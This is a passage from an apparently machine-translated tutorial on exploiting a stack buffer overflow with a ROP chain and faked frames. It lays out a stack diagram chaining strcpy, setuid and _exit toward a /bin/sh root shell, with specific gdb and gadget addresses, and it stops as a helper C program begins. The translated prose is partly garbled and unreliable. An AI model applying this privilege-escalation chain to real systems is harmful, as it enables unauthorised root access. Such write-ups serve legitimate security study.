 | &(0x00) | (second arg —source— to strcpy())  
+——————-+  
| 0xffffaaaa | (first arg —dest— to strcpy())  
+——————-+  
| &leave;ret | (it will put 0xffffd1aa in ESP, then the ebp pop will be executed in that direction, EBP = 0xffffd1bb)  
+——————-+  
| &strcpy() | 1er strcpy. This will be collected by the ret of our first gadget  
+——————-+  
| 0xffffd1aa |Second false EBP, will be picked up by the leave stepping on EIP (s)  
+——————-+ <- buffer (128 bytes)  
| … |  
+——————-+ <- ESP (initially)  
Low addresses

Basically, it back so crazy to ESP and EBP registers as possible, at the end are the most disoriented a compass in a washing poor, but that we are here, we are a light in the darkness.  
It must take into account that probably more space is required than for a normal ROP. In our case we have occupied 120 bytes.

Well, we get directions (in gdb not forget `unset environment LINES` and `unset environment COLUMNS`) and replace the skeleton that we have previously mounted. Knowing that:  
0xf7e776a0 <strcpy> (gdb)

0xf7eb3d60 <setuid> (gdb)  
0xf7e30800 <exit> nope (byte 0x00 and earlier dirs not worth) -> 0xf7eb35c5 <\_exit> (gdb btoh)

0x08048484 <+64>: leave  
0x08048485 <+65>: ret (gdb)

80482fc: 00 (objdump)  
0xf7f5ecc8 : /bin/sh (ROPgadget)

y &buffer = 0xffffd240 (gdb)

The problem is that the address strcpy() (obtained from gdb by `p strcpy`) for some reason did nothing, that is, the `dest` and `source` correct arguments being, the first writable and the second legible, did not change anything, it is ie the 0x00 byte that was copied to the `dest` address was not copied, and it was no problem permissions address as it would have given SIGFAULT or SIGILL, but the execution was still perfectly, in fact it was obtained shell, only the setuid he received as an argument ran filling that we placed in his argument, preventing obtain the root.

I figured it would be some internal issue of libc, which, when compiling, preprocessor directives determine a strcpy() or another (there are several versions of some functions), but finally I think the problem lies elsewhere.

The fact is that to determine where calls a compiled with gcc on my machine when you want to access strcpy() program, I make a little program that will help us do so.

$ cat b.c
#include <stdio.h>
#include <string.h>
